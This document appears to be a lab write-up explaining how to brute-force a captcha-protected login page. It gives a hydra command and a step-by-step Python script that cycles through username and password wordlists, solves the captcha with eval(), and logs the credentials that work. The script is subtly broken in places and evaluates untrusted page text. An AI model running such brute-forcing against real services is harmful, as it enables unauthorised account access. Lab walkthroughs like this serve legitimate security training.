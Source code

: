 # 🔐 Brute Force Authentication Explained (Step-by-Step) 💥 - Freddy

![alt text](<Screenshot From 2025-04-20 23-45-23.png>)

My first initial thought as soon as I unziped the zip file was its definetly a brute force attack. So I ran the bellow script:

`sudo hydra -L usernames.txt -P passwords.txt 10.10.139.225 http-post-form "/login:username=^USER^&password=^PASS^:Error" -v -t 40`

![alt text](<Screenshot From 2025-04-21 00-24-17.png>)

I was not prepared to wait. I reloaded the website. It presented me with this:

![alt text](<Screenshot From 2025-04-21 00-28-31.png>)

This script tries to brute force login by using the username & password combos to break into a login page that also has a simple math captcha. Here's what it does 👇

---

## 1️⃣ Load Wordlists and the URL

📂 The room provides with a zip file with the users and the passwords txt to brute force with:
- `usernames.txt` ➝ A list of usernames to try
- `passwords.txt` ➝ A list of passwords to try

```
url = 'http://10.10.139.225/login'
usernames = open('usernames.txt', 'r')
passwords = open('passwords.txt', 'r') 
```

Each line is read one at a time.

---

## 2️⃣ Try Every Username

🔁 For each username:
- Clean it up (remove the newline `\n`)
- Go back to the start of the password list (so you can try all passwords again)

```
for username in usernames:
  username = username.strip('\n')
  passwords.seek(0)
```

---

## 3️⃣ Try Every Password

🔁 For each password:
- Also clean it up (remove the newline)
```
for password in passwords:
    password = password.strip('\n')
```

---

## 4️⃣ Solve the Captcha 🤔➕➖✖️

💡 Before sending login data:
- The script **requests the login page**
- It **reads the HTML**
- It finds the **math captcha** (e.g. "5 + 9 =")
- It **solves** the math using Python's `eval()` function

```
session = requests.Session()
    response = session.get(url)
    data = {'username': username,
            'password': password}
    response = session.post(url, data = data)
    soup = BeautifulSoup(response.text, 'html.parser')
    captcha_equation = soup.select_one('label[for="usr"]) + br').next_sibling.strip
    result = eval(captcha_equation.split("=")[0])
```
---

## 5️⃣ Send the Login Attempt 🚀

📝 It builds a form like this:

```
data = {'username': username,
            'password': password,
            'captcha': result}
response = session.post(url, data=data)
```
---

## 6️⃣ Output to the console and to log it✍️ 

```
print("[*] Attempting Password: %s for User: %s" % (password, username))
    if 'does not exist' not in response.text:
        print("[*]Username: %s is valid", username)

        if 'Invalid password' not in response.text:
            print("[*]Password: %s is correct", password)
            log = open('logs.txt', 'w')
            log.write(username +""+ password)
            exit()
        else:
            print("[*]The Password is invalid")
    else:
      break
```
